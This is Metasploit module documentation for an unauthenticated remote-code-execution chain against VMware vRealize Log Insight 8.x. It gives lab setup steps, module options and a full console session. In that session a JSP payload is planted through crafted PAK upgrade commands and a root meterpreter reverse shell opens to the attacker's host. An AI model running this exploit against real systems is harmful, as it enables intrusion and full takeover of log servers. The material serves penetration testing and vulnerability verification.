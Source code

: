 ## Vulnerable Application

vRealize Log Insight provides intelligent log management for infrastructure and applications
in any environment. This highly scalable log management solution delivers intuitive, actionable
dashboards, sophisticated analytics, and broad third-party extensibility across physical, virtual,
and cloud environments.

VMware vRealize Log Insights versions v8.x contain multiple vulnerabilities, such as
directory traversal, broken access control, deserialization, and information disclosure.
When chained together, these vulnerabilities allow a remote, unauthenticated attacker to
execute arbitrary commands on the underlying operating system as the root user.

This module exploits multiple vulnerabilities for achieving unauthenticated remote code execution
on the VMware vRealize Log Insight version `v8.x`. Module achieves code execution via triggering a
`RemotePakDownloadCommand` command via the exposed thrift service after obtaining the node token by
calling a `GetConfigRequest` thrift command. After the download, it will trigger a `PakUpgradeCommand` for
processing the specially crafted PAK archive, which then will place the JSP payload under a
certain API endpoint (pre-authenticated) location upon extraction for gaining remote code execution.

The original analysis and POC is done by the Horizon3.ai Team.
Check [here](https://www.horizon3.ai/vmware-vrealize-log-insight-vmsa-2023-0001-technical-deep-dive/) for full disclosure writeup.

## Testing
For installing the vulnerable version follow the steps below,
1. To obtain the vulnerable OVA image, first create a customer account at
[VMware](https://customerconnect.vmware.com/account-registration) (trial license is sufficient)
2. Navigate [here](https://customerconnect.vmware.com/downloads/details?downloadGroup=VRLI-8102&productId=1351) and download `Virtual Appliance`
3. Import the OVA image into a virtualization software (VirtualBox is used for this case).
4. Start the `VMware_vCenter_Log_Insight` image and proceed with the initial installation steps through the web interface of the product.

After these steps, the web portal (port 80/443) and Apache thrift service (port 16520) should be accessible.

## Verification Steps

1. msfconsole
2. Do: `use exploit/linux/http/vmware_vrli_rce`
3. Do: `set RHOST [IP]`
4. Do: `check`

## Options

### THRIFT_PORT
This is the Thrift service port for VMware xRealize Log Insight.

### ThriftTimeout
Thrift response and connection timeout duration.

## WaitForUpgradeDuration
This value represents the duration of wait after issuing a PakUpgrade command.

## Scenarios

```
msf > use exploit/linux/http/vmware_vrli_rce 
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/vmware_vrli_rce) > set rhosts 192.168.56.107
rhosts => 192.168.56.107
msf exploit(linux/http/vmware_vrli_rce) > set lhost 192.168.56.1 
lhost => 192.168.56.1
msf exploit(linux/http/vmware_vrli_rce) > set srvhost 192.168.56.1 
srvhost => 192.168.56.1
msf exploit(linux/http/vmware_vrli_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] 192.168.56.107:443 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.56.107:443 - Checking if 192.168.56.107:443 can be exploited.
[+] 192.168.56.107:443 - The target appears to be vulnerable. VMware XRLI Version: 8.10
[*] 192.168.56.107:443 - Starting Payload Server
[*] 192.168.56.107:443 - Using URL: http://192.168.56.1:8080/IssIrRP.tar
[*] 192.168.56.107:443 - Fetching thrift config...
[+] 192.168.56.107:443 - Obtained node token: 015dd665-9f84-4efc-9fd2-1ea2e467dbf8
[*] 192.168.56.107:443 - Sending getNodeType...
[*] 192.168.56.107:443 - Sending RemotePakDownloadCommand...
[*] 192.168.56.107:443 - Sending PakUpgradeCommand...
[*] 192.168.56.107:443 - Encoding the payload as JSP
[*] 192.168.56.107:443 - Malicious TAR payload created (117760 bytes)
[+] 192.168.56.107:443 - Payload requested by 192.168.56.107:443, sending...
[+] 192.168.56.107:443 - PakUpgrade request is successful
[*] 192.168.56.107:443 - Waiting 2 second for PakUpgrade...
[*] 192.168.56.107:443 - 192.168.56.107:443 - Triggering JSP payload...
[*] Sending stage (3045380 bytes) to 192.168.56.107
[+] 192.168.56.107:443 - Deleted /tmp/IssIrRP.pak
[+] 192.168.56.107:443 - Deleted /usr/lib/loginsight/application/3rd_party/apache-tomcat-8.5.82/webapps/ROOT/loginsight/api/api-v5-documentation.jsp
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.107:57010) at 2023-09-07 19:48:14 +0200
[*] 192.168.56.107:443 - Server stopped.

meterpreter > getuid 
Server username: root
meterpreter > sysinfo 
Computer     : 192.168.56.107
OS           : VMware Photon OS 3.0 (Linux 4.19.256-1.ph3)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 

```
